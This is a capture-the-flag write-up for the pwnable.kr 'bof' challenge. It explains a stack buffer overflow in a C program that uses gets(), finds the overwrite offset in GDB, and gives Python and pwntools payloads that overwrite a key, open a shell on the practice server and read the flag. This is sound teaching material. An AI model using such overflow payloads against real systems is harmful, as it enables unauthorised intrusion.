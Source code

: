 ```yaml
---
title: Pwnable CTF - bof
tags:
  - pwnable
  - ctf
date: 2024-01-04
---
```


In this challenge, there's no shell. Instead we download some files and use
[netcat] to connect to a remote host running what is presumably the `bof`
binary. We will likely have to employ a [buffer overflow] to capture the flag.

```
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

Let's take a look at `bof`:

```sh
$ file bof
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```

Running `bof` locally, we get a prompt and a hint: "overflow me". Entering a random string
results in "Nah...".

```sh
$ nc pwnable.kr 9000
overflow me :
hello
Nah..
```

Let's take a look at the source code provided:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

This program passes `0xdeadbeef` to `func()` as `key`. A buffer is created with
a length of 32. [`gets`] is used to read a string from _stdin_ into
`overflowme`. Finally, `key` is compared to `0xcafebabe` and if they are equal,
we are given a shell.

From the man page for `gets()`:

    **gets()** reads a line from *stdin* into the buffer pointed to by *s* until either a terminating newline or **EOF**,
    which it replaces with a null byte ('\0'). No check for buffer overrun is performed (see BUGS below)."

So now we know that `gets` will happily read more bytes than the buffer will
hold. We need to somehow overwrite `key` with the value `0xcafebabe`.

Let's open the binary in [GDB]:

```sh
gdb ./bof
```

If we disassembly `func`, we can see the compare against `0xcafebabe` at `+40`.

```
(gdb) disas func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   %ebp
   0x5655562d <+1>:     mov    %esp,%ebp
   0x5655562f <+3>:     sub    $0x48,%esp
   0x56555632 <+6>:     mov    %gs:0x14,%eax
   0x56555638 <+12>:    mov    %eax,-0xc(%ebp)
   0x5655563b <+15>:    xor    %eax,%eax
   0x5655563d <+17>:    movl   $0x5655578c,(%esp)
   0x56555644 <+24>:    call   0xf7df6880 <puts>
   0x56555649 <+29>:    lea    -0x2c(%ebp),%eax
   0x5655564c <+32>:    mov    %eax,(%esp)
   0x5655564f <+35>:    call   0xf7df5ee0 <gets>
   0x56555654 <+40>:    cmpl   $0xcafebabe,0x8(%ebp)
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    movl   $0x5655579b,(%esp)
   0x56555664 <+56>:    call   0xf7dcbcd0 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    movl   $0x565557a3,(%esp)
   0x56555672 <+70>:    call   0xf7df6880 <puts>
   0x56555677 <+75>:    mov    -0xc(%ebp),%eax
   0x5655567a <+78>:    xor    %gs:0x14,%eax
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7eb4e40 <__stack_chk_fail>
   0x56555688 <+92>:    leave
   0x56555689 <+93>:    ret
```

Let's set a breakpoint there:

```
(gdb) break *func+40
Breakpoint 1 at 0x56555654
```

Let's run it. We know the buffer expects 32 bytes, so let's give it some
sentinel values to find them on the stack.

```
(gdb) run
overflow me :
aaaabbbbccccddddeeeeffffgggghhhh

Breakpoint 1, 0x56555654 in func ()
```

We hit our breakpoint. Let's examine the stack:

```
(gdb) x/24x $esp
0xffffd290:     0xffffd2ac      0x00000020      0x00000000      0xffffd454
0xffffd2a0:     0x00000000      0x00000000      0x01000000      0x61616161
0xffffd2b0:     0x62626262      0x63636363      0x64646464      0x65656565
0xffffd2c0:     0x66666666      0x67676767      0x68686868      0x62f5e700
0xffffd2d0:     0xffffd310      0xf7fbe66c      0xffffd2f8      0x5655569f
0xffffd2e0:     0xdeadbeef      0x00000000      0xf7faa000      0xf7ea283b
```

We can see our input (`0x61..0x68`) starting at `0xffffd2ac` and ending at
`0xffffd2c8`. So we need to overflow the buffer until it overwrites `0xdeadbeef`
at `0xffffd2e0`. That's 52 bytes past the start of our input, or 13 double words
(chunks of 4 bytes). So we need 52 bytes of filler and the value we want to
overwrite, `0xcafebabe`.

To generate the bytes we need, we can use Python. Note that we need reverse the
order of the bytes in `0xcafebabe` because x86 is [little endian]. We need to
use `sys.stdout.buffer.write` instead of `print` because we need the raw bytes
output and not have it interpreted as UTF-8.

```sh
$ python -c "import sys; \
payload = b'\xca\xfe\xba\xbe'[::-1]*14; \
sys.stdout.buffer.write(payload)" \
| od -v -tx
0000000 cafebabe cafebabe cafebabe cafebabe
0000020 cafebabe cafebabe cafebabe cafebabe
0000040 cafebabe cafebabe cafebabe cafebabe
0000060 cafebabe cafebabe
```

Let's try our payload against the target. We need to wrap the Python program in
a sub shell with `cat` in order to keep stdin open. Nothing will be printed at
first, but if hit return once, we'll be in the shell and can execute `ls` to see
what we have access to and finally `cat flag` to get the flag.

```sh
$ (python -c "import sys; \
payload = b'\xca\xfe\xba\xbe'[::-1]*14; \
sys.stdout.buffer.write(payload)" \
; cat) | nc pwnable.kr 9000

ls
bof
bof.c
flag
log
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

In the future, we can use [pwntools] to make our attack easier to write and
execute:

```py
from pwn import *

payload = p32(0xcafebabe)*14
conn = remote("pwnable.kr", 9000)
conn.sendline(payload)
conn.interactive()
```

```sh
$ python bof.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```

[buffer overflow]: https://en.wikipedia.org/wiki/Buffer_overflow
[netcat]: https://en.wikipedia.org/wiki/Netcat
[`gets`]: https://linux.die.net/man/3/gets
[GDB]: https://en.wikipedia.org/wiki/GNU_Debugger
[little endian]: https://en.wikipedia.org/wiki/Endianness
[pwntools]: https://docs.pwntools.com/en/latest/
